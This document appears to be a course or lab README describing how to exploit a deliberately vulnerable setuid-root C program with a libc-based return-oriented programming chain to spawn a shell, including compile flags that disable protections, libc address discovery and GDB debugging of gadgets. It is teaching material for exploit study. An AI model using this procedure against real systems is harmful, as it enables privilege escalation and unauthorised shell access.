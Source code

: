 # How to Launch a Shell in a Vulnerable Program
## Setup
- In this attack, we'll assume that libc is not statically linked to the executable
- We'll link zsh to sh:
```
sudo ln -sf /bin/zsh /bin/sh
```
- We'll use `vuln.c` from assignment 1 as our example vulnerable program:
```
gcc -o vuln -z execstack -fno-stack-protector vuln.c
sudo chown root vuln
sudo chmod 4755 vuln
```

## Find Base Address of libc
- We can run `ldd examples/vuln` to find this base address:
```
	linux-gate.so.1 =>  (0xb7fd9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e09000)
	/lib/ld-linux.so.2 (0xb7fdb000)
```
- In this example, libc's base address is `0xb7e09000`

## How to Create an ROP Chain
- We'll create an ROP chain to launch a shell and insert that ROP chain into a buffer overflow in `examples/vuln.c`
```
python3 gen_shellcode.py --libc_offset <libc_offset>
```
- For example:
```
python3 gen_shellcode.py --libc_offset 0xb7e09000
```
- If the `--gadgets` argument is included, we will create a shellcode with gadgets stored in that file
- **Note**: We don't recommend using `--gadgets`, because the generated shellcode won't work 100% of the time. Some gadgets found by ROPHunter may be invalid, because the actual execution could interpret the bytes differently than the Capstone disassembler.

## How to Launch a Shell
- We used GDB to determine where in the stack to store parts of the shellcode; e.g. `/bin/sh`
- However, GDB's stack frame may not match normal execution
- We use `invoke.sh` to run `vuln` within the same environment (courtesy of https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it):
	- Run `vuln` in normal execution:
```
./invoke.sh vuln
```
	- Run `vuln` with GDB:
```
./invoke.sh -d vuln
```

### How to Debug this ROP Chain
#### Using GDB
- Using GDB, we run `./invoke.sh -d vuln`:
```
b main	# libc only gets loaded after main(), so we have to stop at main() before setting the other breakpoints
run
b *<Gadget address>	# e.g. First gadget's address is 0x2c79c
continue
```

#### Wrong %esp
- For some parts of the shellcode, we need to store addresses to other places on the stack
- We calculate these addresses by using the address stored in `%esp` at the first gadget
	- With return-oriented programming, `%esp` acts as the instruction pointer
- We can find this address by using GDB and can pass this address to `gen_shellcode.py` with the argument `init_esp_addr`

#### Invalid Gadgets
- If GDB stops at the expected instruction, then we have found the correct gadget
- Unfortunately, finding the right gadgets for an ROP shell is still trial-and-error. Some gadgets may be invalid, because GDB may not interpret the gadgets in the same way as the Capstone disassembler